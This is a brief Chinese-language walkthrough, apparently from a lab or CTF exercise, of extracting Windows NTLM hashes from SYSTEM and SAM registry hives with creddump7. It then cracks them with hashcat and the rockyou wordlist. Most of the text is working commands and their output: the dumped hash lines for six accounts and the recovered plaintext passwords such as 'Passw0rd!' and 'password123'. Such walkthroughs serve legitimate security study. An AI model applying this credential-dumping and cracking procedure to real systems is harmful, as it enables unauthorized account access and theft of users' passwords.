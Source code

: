 
### 下載 creddump7
```
git clone https://github.com/Tib3rius/creddump7

```
```
//官方給這個
pip3 install pycrypto

//我發現pycrypto 已經沒在維護 使用pycryptodome代替
pip uninstall pycrypto
pip install pycryptodome
```


### pwdump dump hash
```
python3 creddump7/pwdump.py SYSTEM SAM
```


```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
```



* 我們要的是NTLM 加密的所以是後面冒號那段


### hash_identifier 確認加密type
https://hashes.com/en/tools/hash_identifier

### hashcat 破解
```
hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlists/rockyou.txt

```

```
Administrator
fc525c9683e8fe067095ba2ddc971889
Passw0rd!


Guest
DefaultAccount
31d6cfe0d16ae931b73c59d7e0c089c0
空


WDAGUtilityAccount
6ebaa6d5e6e601996eefe4b6048834c2
14344385

user
91ef1073f6ae95f5ea6ace91c09a963a
password321

admin
a9fdfa038c4b75ebc76dc855dd74f0da
password123
```